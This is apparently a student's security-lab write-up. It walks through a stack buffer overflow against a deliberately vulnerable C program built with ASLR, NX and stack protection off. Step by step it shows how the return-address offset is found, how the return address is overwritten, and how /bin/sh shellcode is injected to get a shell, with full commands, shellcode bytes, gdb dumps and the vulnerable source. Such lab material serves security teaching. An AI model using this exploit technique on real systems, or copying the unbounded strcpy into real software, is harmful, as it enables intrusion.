 # Lab3 - Buffer overflow attack(turn off ASLR, turn off NX)

## Overview
This example shows how to find the return address location of strcpy using buffer overflow.
After finding out where it is, overwrite the return address with a address where we want to jump(What if the jump address is a program getting a shell!!)

## PAYLOAD
Payload = Aligned Shellcode + Safe padding + BUFFER_START_ADDRESS
 
## Steps
1. Set an address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with a parameter containing the address where you want to jump.(We are going to use the address from the Step1)
4. Make a payload which include the execution of shell code!!
5. Place the payload as a parameter of the 'ans_check5'.

## Before get started
+ Preparation. Compile the c program below like this. 
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```
+ gcc option explanation
```
-g : default debug information
-z execstack : marks the stack as executable
-fno-stack-protector : disables stack protection
-o : set output file name
```

## Step1. Find a exit function in the program
+ In a program, there should be a exit function naturally. We will use this address for later use.
+ Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

## Step2. Find out where the return address of strcpy function is! 
+ This is where brute force method comes in! Try like below changing the number of print count. 
+ If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

## Step3. Exit without any other segmentation fault!
+ Python code will create meaning-less characters followed by exit return address. 
+ That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
+ Think about it. What if we can overwrite return address to a target program address we want to execute?
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```

+ Result. 
   + As you can notice, the program exit with special input parameter overwriting the return address 
```
[02/10/22]seed@VM:Byeongchan$ ans_check5
Usage: ans_check5 <answer>
[02/10/22]seed@VM:Byeongchan$ ans_check5 1
ans_buf is at address 0xbf8d9acc
Wrong answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 forty-two
ans_buf is at address 0xbfb8ad9c
Right answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
ans_buf is at address 0xbf97bbdc
[02/10/22]seed@VM:Byeongchan$ 
```

## Step4. Make a payload. 
  + PAYLOAD = <Aligned Shellcode> + <Safe padding>+<BUFFER_START_ADDRESS>
  + Shellcode: It's a execution of /bin/sh and hexacoded.
  + Safe padding: Need it to reach the return address location
  + BUFFER_START_ADDRESS: Address of a target program. In this case, the start address of 'Aligned Shellcode'
  + In this practice, we turn off ASLR so we surely know where it the start address of our overwrite.
```
Shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
Safe padding: \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
BUFFER_START_ADDRESS: \x6c\xfd\xff\xbf
```

## Step5. Place the payload as a parameter of the 'ans_check5'.

  + FIRST, I executed on command line and I got another bash shell!!!!
  + SECOND, using gdb, investigate the content of the stack!!
  + I can see the corrupted stack content filled with the malicious code and \x90s and return address which points to the malicious code!!
```
[02/10/22]seed@VM:Byeongchan$ env -i PWD="/home/seed/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/stack_addresses/ans_check5 $( python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x90'*24 + '\x6c\xfd\xff\xbf'")
ans_buf is at address 0xbffffd6c
$ exit
[02/10/22]seed@VM:Byeongchan$
```
```
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0xb7eeed57
0xbffffd70:	0xffffffff	0x0000002f	0xb7e14dc8	0xb7fd6858
0xbffffd80:	0x00000001	0x00008000	0xb7fba000	0x00000000
0xbffffd90:	0x00000002	0x00800000	0xbffffdb8	0x080485cb
0xbffffda0:	0xbfffff6a	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb) c
Continuing.

Breakpoint 2, 0x0804855b in check_answer (ans=0xbfffff00 "\031")
    at ans_check5.c:12
12	  strcpy(ans_buf, ans);
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0x6850c031
0xbffffd70:	0x68732f2f	0x69622f68	0x50e3896e	0x99e18953
0xbffffd80:	0x80cd0bb0	0x90909090	0x90909090	0x90909090
0xbffffd90:	0x90909090	0x90909090	0x90909090	0xbffffd6c
0xbffffda0:	0xbfffff00	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb)
```

## ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```


